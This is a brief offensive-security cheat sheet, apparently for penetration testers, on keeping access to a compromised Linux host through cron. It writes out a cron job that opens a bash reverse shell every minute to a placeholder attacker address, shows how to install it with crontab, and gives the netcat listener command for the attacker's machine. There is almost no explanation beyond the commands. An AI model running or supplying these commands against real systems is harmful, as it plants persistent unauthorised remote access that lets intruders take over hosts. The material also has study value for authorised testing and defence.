 # Persistence via cron jobs

## Create new cron job instruction on target system

```text
:~# echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<kali-ip>/1234 0>&1'" > cron
:~# crontab -i cron
:~# crontab -l
```

## Start listener in your kali system

```text
:~# nc -nvlp 1234
```
